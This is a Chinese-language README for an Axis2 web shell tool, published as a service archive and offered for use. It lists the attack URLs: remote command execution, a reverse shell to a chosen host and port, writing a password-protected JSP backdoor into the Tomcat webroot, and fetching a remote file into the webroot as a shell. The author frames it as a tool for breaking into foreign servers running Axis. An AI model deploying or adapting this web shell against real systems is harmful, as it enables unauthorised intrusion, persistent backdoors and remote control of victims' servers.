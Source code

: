 axis2
=========

axis2 web shell  
author : Svti  
url : https://github.com/Svti/Axis2Shell  

使用介绍：  

1、命令执行  
http://1.1.1.1/services/config/exec?cmd=whoami  
(不说了，执行命令。注意:xml换行没有处理好)  

2、反弹shell  
http://1.1.1.1/services/config/shell?host=1.1.1.1&port=5555   
(Linux则使用bash反弹shell，Windows则会进行socket执行shell)  

3、文件上传  
http://1.1.1.1/services/config/upload?path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把resource目录下面的one.txt 写成shell.jsp，注意：全路径，带*文件名)  

4、文件下载  
http://1.1.1.1/services/config/download?url=http://www.ooo.com/mm.txt&path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把这个URL的文件写成shell.jsp，注意：全路径，带*文件名)  


5、class目录查看  
http://1.1.1.1/services/config/getClassPath  
(会显示当前class的路径，方便文件上传)  

ps:  
趁周末休息，看了几个国外的机器有 axis的 项目，特地去找了@园长的Cat.aar工具，发现真心不好使。  

1、反弹shell 鸡肋，好多错误 ，ls / 都不行。   

2、没有文件上传功能。这个对于一个渗透着来说很重要   

于是自己写了个，希望大家喜欢。   

源码已经上github https://github.com/Svti/Axis2Shell   

aar 文件https://github.com/Svti/Axis2Shell/blob/master/config.aar也在github上面，还有什么问题，可以在下面评论   


注意：   

1、相同文件名的aar文件只能上传一次，虽说是remove Service了，服务器上面的还在。想要继续使用，请rename   

2、默认的jsp一句话木马是/resource/one.txt，可以自己修改。默认密码是wooyun，发布版本里面放的是one.jsp，一向鄙视伸手党  
3、Linux反弹shell 会在当前目录生成一个wooyun.sh的文件，当shell断开后会自动删除  

